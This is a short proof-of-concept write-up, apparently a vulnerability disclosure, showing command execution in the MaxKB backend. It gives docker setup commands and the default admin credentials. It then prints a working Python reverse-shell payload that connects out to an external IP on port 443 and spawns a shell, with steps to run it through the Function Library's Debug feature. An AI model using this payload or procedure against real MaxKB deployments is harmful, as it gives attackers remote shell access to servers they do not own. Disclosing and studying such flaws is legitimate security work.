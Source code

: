 

**Maxkb Command Execution in Backend**

**Setup:**

```bash
# On Linux Machine
docker run -d --name=maxkb --restart=always -p 8080:8080 -v ~/.maxkb:/var/lib/postgresql/data -v ~/.python-packages:/opt/maxkb/app/sandbox/python-packages cr2.fit2cloud.com/1panel/maxkb

# On Windows Machine
docker run -d --name=maxkb --restart=always -p 8080:8080 -v C:/maxkb:/var/lib/postgresql/data -v C:/python-packages:/opt/maxkb/app/sandbox/python-packages cr2.fit2cloud.com/1panel/maxkb

# Username: admin
# Password: MaxKB@123..
```

**Payload:**

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.196.128",443))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty
pty.spawn("sh")
```

**Steps:**

1. Navigate to the "Function Library."
2. Click "Create Function."
3. Insert the payload into the function.
4. Click "Debug" and execute the function.

![img](file:///C:\Users\28162\AppData\Local\Temp\QQ_1737205693192.png)

**Result:**
A reverse shell was successfully obtained.

![img](file:///C:\Users\28162\AppData\Local\Temp\QQ_1737205774585.png)